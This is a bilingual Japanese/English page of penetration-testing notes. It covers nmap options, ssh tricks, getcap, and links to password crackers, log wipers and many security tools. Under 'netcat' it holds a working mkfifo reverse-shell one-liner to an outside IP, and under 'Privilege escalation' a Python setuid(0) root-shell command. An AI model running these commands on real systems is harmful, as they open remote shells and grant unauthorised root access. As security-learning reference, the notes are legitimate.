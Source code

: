 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### POC Tools

https://github.com/mbechler/marshalsec

### Linux

https://access.redhat.com/documentation/ja-jp/red_hat_enterprise_linux/7/html/security_guide/sec-using-aide

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://app.netlas.io  

[Finding Vulnerable Systems Across the Internet with Netlas.io](https://www.hackers-arise.com/post/open-source-intelligence-osint-finding-vulnerable-systems-across-the-internet-with-netlas-io)

https://www.exabeam.com/

https://www.adaptive-shield.com/

https://regexr.com/

https://houdini.secsi.io/

https://github.com/Datadog/stratus-red-team/

https://snyk.io/

### OSS

https://github.com/awslabs/git-secrets

https://github.com/sobolevn/git-secret

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://github.com/trufflesecurity/truffleHog

https://github.com/tillson/git-hound

https://github.com/decalage2/oletools

https://github.com/decalage2/ViperMonkey

https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py

https://github.com/DidierStevens/DidierStevensSuite/blob/master/zipdump.py

https://github.com/makenowjust-labs/recheck
